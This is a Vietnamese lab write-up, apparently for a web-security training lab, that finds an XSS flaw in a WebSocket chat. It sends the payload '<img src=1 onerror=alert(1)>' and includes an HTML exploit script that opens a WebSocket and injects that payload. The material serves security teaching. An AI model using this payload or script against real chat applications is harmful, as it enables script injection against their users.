 ```javascript
      newWebSocket.onclose = function (evt) {
        webSocket = undefined;
        writeMessage("message", "System:", "--- Disconnected ---");
      };
    });
  }
})();
```

Kiểm tra cách message được render trong tag `<td>`

![image](https://hackmd.io/_uploads/S13VtJYca.png)

### Khai thác

- Gửi message với XSS payload `<img src=1 onerror=alert(1)>`

![image](https://hackmd.io/_uploads/HyHSjkYqp.png)

và thấy 1 hình ảnh đã được chèn vào

![image](https://hackmd.io/_uploads/Hyf2okY5a.png)

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/HyL5iytqp.png)

mình đã viết lại script khai thác

```javascript
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <script>
      const socket = new WebSocket(
        "wss://0a7600b303ef21c780ad0ddd003a0074.web-security-academy.net/chat"
      );

      socket.addEventListener("open", (event) => {
        console.log("Đã kết nối thành công");

        // Gửi dữ liệu
        const data = {
          message: "<img src=1 onerror='alert(1)'>",
        };

        socket.send(JSON.stringify(data));
      });

      socket.addEventListener("message", (event) => {
        console.log(`Nhận dữ liệu từ server: ${event.data}`);
      });

      socket.addEventListener("close", (event) => {
        console.log("Kết nối đã đóng");
      });
    </script>
  </body>
</html>
```
